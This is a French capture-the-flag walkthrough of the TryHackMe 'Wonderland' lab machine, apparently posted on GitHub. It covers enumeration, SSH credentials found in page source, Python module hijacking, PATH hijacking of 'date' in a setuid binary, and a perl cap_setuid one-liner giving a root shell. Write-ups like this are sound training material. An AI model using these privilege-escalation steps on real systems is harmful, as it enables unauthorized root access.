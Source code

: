 # Wonderland

![fdba6eaf85513262b2a9b12875b0f342(2)](https://user-images.githubusercontent.com/68467919/207438998-d5969836-4f23-4aa1-a4ad-f313eb392de5.jpeg)

## Énumération

### NMAP

```php
sudo nmap -sC -sV -O -oN enum/nmap -vv $ip

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8eeefb96cead70dd05a93b0db071b863 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDe20sKMgKSMTnyRTmZhXPxn+xLggGUemXZLJDkaGAkZSMgwM3taNTc8OaEku7BvbOkqoIya4ZI8vLuNdMnESFfB22kMWfkoB0zKCSWzaiOjvdMBw559UkLCZ3bgwDY2RudNYq5YEwtqQMFgeRCC1/rO4h4Hl0YjLJufYOoIbK0EPaClcDPYjp+E1xpbn3kqKMhyWDvfZ2ltU1Et2MkhmtJ6TH2HA+eFdyMEQ5SqX6aASSXM7OoUHwJJmptyr2aNeUXiytv7uwWHkIqk3vVrZBXsyjW4ebxC3v0/Oqd73UWd5epuNbYbBNls06YZDVI8wyZ0eYGKwjtogg5+h82rnWN
|   256 7a927944164f204350a9a847e2c2be84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHH2gIouNdIhId0iND9UFQByJZcff2CXQ5Esgx1L96L50cYaArAW3A3YP3VDg4tePrpavcPJC2IDonroSEeGj6M=
|   256 000b8044e63d4b6947922c55147e2ac9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAsWAdr9g04J7Q8aeiWYg03WjPqGVS6aNf/LF+/hMyKh
80/tcp open  http    syn-ack ttl 63 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

### Feroxbuster

```php
feroxbuster -u http://10.10.205.166/ -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt

301      GET        0l        0w        0c http://10.10.205.166/img => img/
200      GET       10l       44w      402c http://10.10.205.166/
301      GET        0l        0w        0c http://10.10.205.166/r => r/
301      GET        0l        0w        0c http://10.10.205.166/r/a => a/
301      GET        0l        0w        0c http://10.10.205.166/r/a/b => b/
301      GET        0l        0w        0c http://10.10.205.166/r/a/b/b => b/
```

## Port 80 | HTTP

En suivant les différents répertoires */r/a/b/b/i/t* nous tombons sur cette page : 

![Untitled](https://user-images.githubusercontent.com/68467919/207439058-933ea372-510e-4962-8e8c-db55a1d13cbf.png)

En regardant le code-source, nous obtenons des creds pour se connecter en SSH sur la session d’alice.

```bash
alice:HowDothTheLittleCrocodileImproveHisShiningTail
```

### Alice | SSH

En étant connecté à la session d’Alice, nous pouvons faire un sudo -l pour voir quels scripts nous pourrions exécuter à la place d’un autre utilisateur.

![Untitled 1](https://user-images.githubusercontent.com/68467919/207439082-d6ea7661-5723-4160-a4cb-5fb131a7b5c8.png)

Nous pouvons donc exécuter le script walrus_and_the_carpenter.py en tant que l’utilisateur rabbit.

*walrus_and_the_carpenter.py*

```python
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night.

[...]

"O Oysters," said the Carpenter.
"You’ve had a pleasant run!
Shall we be trotting home again?"
But answer came there none —
And that was scarcely odd, because
They’d eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

Nous remarquons que le script import le module *random* et appel la fonction *choice*. Si nous créons notre propre random nous pourrions exécuter n’importe quelle commande lors de l’exécution du script.

Dans */home/alice*, nous créons donc un script nommé *random.py* avec le contenu ci-dessous :

```python
import os

def choice(x):
	os.system('/bin/bash')
```

![Untitled 2](https://user-images.githubusercontent.com/68467919/207439102-c4d76018-9be8-48ca-a1a0-c33ecd3d2417.png)

Le script fait donc bien appel à notre *random.py* qui se trouve dans /home/alice

## Rabbit

Dans le home de Rabbit, un fichier teaParty est présent. En utilisant la commande file, nous pourrions en connaître un peu plus sur le type de ce fichier.

```bash
file teaParty

teaParty: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75a832557e341d3f65157c22fafd6d6ed7413474, not stripped
```

Je décide donc de télécharger ce fichier sur ma machine en faisant un serveur web sur la session sur laquelle nous sommes.

```bash
rabin2 -z teaParty

[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00002008 0x00002008 59  60   .rodata ascii Welcome to the tea party!\nThe Mad Hatter will be here soon.
1   0x00002048 0x00002048 57  58   .rodata ascii /bin/echo -n 'Probably by ' && date --date='next hour' -R
2   0x00002088 0x00002088 68  69   .rodata ascii Ask very nicely, and I will give you some tea while you wait for him
3   0x000020d0 0x000020d0 32  33   .rodata ascii Segmentation fault (core dumped)
```

En utilisant *ltrace*, nous pouvons voir les différents appels que fait le fichier.

```bash
ltrace ./teaParty

setuid(1003)                                                            = -1
setgid(1003)                                                            = -1
puts("Welcome to the tea party!\nThe Ma"...Welcome to the tea party!
The Mad Hatter will be here soon.
)                            = 60
system("/bin/echo -n 'Probably by ' && d"...Probably by Tue, 13 Dec 2022 22:24:16 +0100
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                  = 0
puts("Ask very nicely, and I will give"...Ask very nicely, and I will give you some tea while you wait for him
)                             = 69
getchar(0x7f82ff48ea10, 1, 1, 0x7f82ff3b20d0
```

En vérifiant dans /etc/passwd à quel uid appartient 1003, nous voyons qu’il appartient à l’utilisateur hatter.

```bash
tryhackme:x:1000:1000:tryhackme:/home/tryhackme:/bin/bash
alice:x:1001:1001:Alice Liddell,,,:/home/alice:/bin/bash
hatter:x:1003:1003:Mad Hatter,,,:/home/hatter:/bin/bash
rabbit:x:1002:1002:White Rabbit,,,:/home/rabbit:/bin/bash
```

Nous voyons ici que le script utilise la commande echo et date. Comme pour Alice, si nous parvenons à créer notre propre date, nous pourrions peut-être devenir l’utilisateur Hatter

### Path Hijacking

```bash
nano /tmp/date

#!/bin/bash

/bin/bash
```

```bash
PATH=/tmp/:$PATH
```

![Untitled 3](https://user-images.githubusercontent.com/68467919/207439127-587989d3-2053-46ea-9ca5-34052366aa51.png)

## Root

Après avoir énuméré les différentes façon dont nous pourrions élevé nos privilèges avec linpeas.sh, nous pouvons remarquer qu’un captabilities est set sur le binaire perl.

```bash
/usr/bin/perl = cap_setuid+ep
```

En allant sur GTFOBins, nous pouvons voir que l’exploit si dessous fonctionne pour s’élever en privilège.
https://gtfobins.github.io/gtfobins/perl/

```bash
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

ROOTED

